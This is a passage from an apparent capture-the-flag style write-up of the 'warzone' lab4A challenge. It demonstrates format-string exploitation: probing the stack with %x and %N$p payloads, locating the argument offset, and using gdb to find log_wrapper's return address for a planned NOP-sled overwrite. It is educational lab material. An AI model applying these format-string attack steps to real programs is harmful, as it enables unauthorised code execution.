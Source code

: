 **RELRO** (Relocation Read-Only) is enabled and protects the Global Offset Table (GOT) in ELF binaries from being overwritten. It means that we won't be able to rewrite any address in this section (unlike the previous level).

## Dynamic Analysis

Like in the previous level, we need to find where our argument is located on the stack. Remember that we need this information to be able to specify the memory locations we want to write into. So, if we specify an address as argument, we need to tell our format specifier (`%<argnum>$n`) where is this address on the stack; is it the first one? the second one? etc.

```shell
lab4A@warzone:/tmp$ /levels/lab04/lab4A AAAABBBBCCCC.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x
ERROR: Failed to open AAAABBBBCCCC.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x
lab4A@warzone:/tmp$ cat backups/.log
LOG: Starting back up: AAAABBBBCCCC.b7e9eb73.b7e9548c.bffff7ee. 8048cda. 804b008.       0.       0.b7e24994.617453c8.6e697472.61622067.75206b63.41203a70.42414141.43424242.2e434343
```

As you can see, we have the **0x41** values in the 13th and 14th elements. Given we need to align our values, we just need to prepend 1 byte to our payload.

**Note** As you may know, the **$** (dollar sing) in *bash* is used for variable substitution, you will need to escape it with a backslash(**\\**) in your payload to avoid any issue.
{: .notice--info}

```shell
lab4A@warzone:/tmp$ /levels/lab04/lab4A DAAAABBBBCCCC.%14\$p.%15\$p.%16\$p
ERROR: Failed to open DAAAABBBBCCCC.%14$p.%15$p.%16$p
lab4A@warzone:/tmp$ cat backups/.log
LOG: Starting back up: DAAAABBBBCCCC.0x41414141.0x42424242.0x43434343
```

Nice, so our arguments will start at the **14th** element. What's next? Well, given the vulnerability happens in the *log_wrapper()* function we could do somthing like this:
- Find the return address to *main()* from *log_wrapper()*
- Overwrite this return address with the begining of our NOP-sled

Finding the return address to *main()* is easy, we just need to set a breakpoint on the `ret` instruction at the end of the *log_wrapper()* function.

```nasm
gdb-peda$ break *log_wrapper+226
Breakpoint 1 at 0x80489df
gdb-peda$ run `python -c 'print 8 * "A" + 50 * "\x90"'`
Starting program: /levels/lab04/lab4A `python -c 'print 8 * "A" + 50 * "\x90"'`
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xb7fcd000 --> 0x1a9da8
ECX: 0x0
EDX: 0x804b0a0 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbffff688 --> 0x0
ESP: 0xbffff5ec --> 0x8048a8b (<main+171>:	mov    eax,DWORD PTR [esp+0xc])
EIP: 0x80489df (<log_wrapper+226>:	ret)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80489d7 <log_wrapper+218>:	add    esp,0x134
   0x80489dd <log_wrapper+224>:	pop    ebx
   0x80489de <log_wrapper+225>:	pop    ebp
=> 0x80489df <log_wrapper+226>:	ret
   0x80489e0 <main>:	push   ebp
   0x80489e1 <main+1>:	mov    ebp,esp
   0x80489e3 <main+3>:	and    esp,0xfffffff0
   0x80489e6 <main+6>:	sub    esp,0x90
```